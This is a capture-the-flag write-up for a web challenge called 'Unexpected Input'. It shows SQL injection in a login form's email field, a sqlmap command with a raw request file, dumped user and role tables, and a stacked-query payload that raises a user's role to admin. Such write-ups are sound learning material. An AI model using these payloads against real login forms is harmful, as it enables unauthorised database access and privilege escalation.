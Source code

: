 # Unexpected Input

```
The unexpected input challenge invites participants to unravel the secrets hidden within data structures. This quest is not for the faint of heart — only those who can master the art of decepting computers can complete this.
```

# Solution

Initially, I checked for basic SQL injections. like: OR 1=1, and the website was vulnerbale to SQLi

I got a positive response after inputting `' OR 1=1 -- -` in the email field, but the user did not have enough privileges. <br/>
![](1.png)

I decided to run SQLmap to see the tables in the database.
```bash
sqlmap -r req.txt --ignore-code 401 --tables
```

##### req.txt
```
POST / HTTP/1.1
Host: 34.131.172.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://34.131.172.2/
Content-Type: application/json
Content-Length: 44
Origin: http://34.131.172.2
Connection: keep-alive

{"email":"admin","password":"admin"}
```

In  the database public, there are 2 tables
```
Table: users
[1 entry]
+----+---------+---------------------+-----------+-----------+------------+
| id | role_id | email               | lastname  | firstname | password   |
+----+---------+---------------------+-----------+-----------+------------+
| 1  | 2       | developer@excel.org | developer | developer | 1234       |
+----+---------+---------------------+-----------+-----------+------------+
```
```
Table: roles
[2 entries]
+----+----------------+
| id | name           |
+----+----------------+
| 1  | ROLE_ADMIN     |
| 2  | ROLE_DEVELOPER |
+----+----------------+
```

From the table dump, its clear that there is one user and 2 roles. To get ROLE_ADMIN, role_id should be changed to 1. To change the value to 1, I injected a stacked query through the email field.
```
' ; update users set role_id=1 where lastname='developer'; -- -
```
Now that the role_id has changed, I used the credentials from user table to login.
![](2.png)